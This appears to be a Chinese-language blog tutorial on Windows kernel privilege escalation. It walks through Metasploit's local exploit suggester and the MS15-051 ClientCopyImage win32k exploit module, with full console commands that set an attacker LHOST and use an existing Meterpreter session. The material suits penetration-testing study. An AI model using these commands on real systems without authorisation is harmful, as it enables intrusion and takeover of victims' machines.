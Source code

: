 ```yaml
---
layout:     post
title:      内核提权
date:       2019-1-16
author:     Wh0ale
header-img: img/1.jpg
catalog: true
tags:
    - privilege
---
```


## **Windows-Exploit-suggester**

Metasploit内置模块提供了各种可用于提权的local exploits，并会基于架构，平台（即运行的操作系统），会话类型和所需默认选项提供建议。这极大的节省了我们的时间，省去了我们手动搜索local exploits的麻烦。虽说如此，但也并非所有列出的local exploits都可用。所以，无论是漏洞利用还是查找最好的办法就是自动结合手动。 

### **用法**

**注：**要使用local exploit suggester，我们必须已在目标机器上获取到了一个Meterpreter session。在运行Local Exploit suggester之前，我们需要将现有的Meterpreter session调到后台运行（CTRL + Z）

示例，假设我们现在有一个Meterpreter session 1

```bash
use post/multi/recon/local_exploit_suggester
set LHOST 192.168.1.107
set SESSION 1
exploit
```

如下图所示，它自动的为我们匹配出了一些可能的用于易受攻击目标提权的漏洞利用模块。

## **![Windows内核漏洞利用提权教程](https://image.3001.net/images/20180913/1536801740_5b99bbcce7873.png!small)**

## **Windows ClientCopyImage Win32k Exploit**

Windows内核模式驱动程序特权提升漏洞。此模块利用了win32k.sys内核模式驱动程序中的不正确对象处理进行提权。

该模块已在Windows 7 x64和x86，Windows 2008 R2 SP1 x64的易受攻击版本上进行了测试。

让我们转到MSF控制台并执行该漏洞的exploit模块

```bash
use exploit/windows/local/ms15_051_client_copy_image
set lhost 192.168.1.107
set session 1
exploit
```

一旦exploit成功执行，就会打开另一个Meterpreter session
